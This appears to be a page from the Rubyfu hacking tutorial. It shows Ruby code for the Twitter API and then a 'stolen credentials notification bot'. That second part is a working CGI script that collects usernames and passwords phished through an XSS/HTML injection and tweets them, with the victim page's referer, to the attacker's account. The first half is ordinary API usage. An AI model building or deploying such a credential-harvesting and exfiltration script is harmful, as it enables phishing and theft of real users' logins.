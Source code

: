 # Twitter API

Dealing with Twitter's API is really useful for information gathering, taxonomy and social engineering. However, you have to have some keys and tokens in-order to interact with Twitter's APIs. To do so, please refer to the official [Twitter development page](https://dev.twitter.com/oauth/overview).

* Install Twitter API gem

  ```text
  gem install twitter
  ```

## Basic Usage

**rubyfu-tweet.rb**

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```

![](../../../.gitbook/assets/webfu__twitterapi1.png)

**Your turn**, tweet to @Rubyfu using above example. Tweet your code and output to **@Rubyfu**.

## Building Stolen Credentials notification bot

We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script](http://rubyfu.net/content/module_0x4__web_kung_fu/index.html#cgi) that takes that stolen credentials then tweet these credentials to us as notification or log system

```ruby
#!/usr/bin/ruby -w

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```

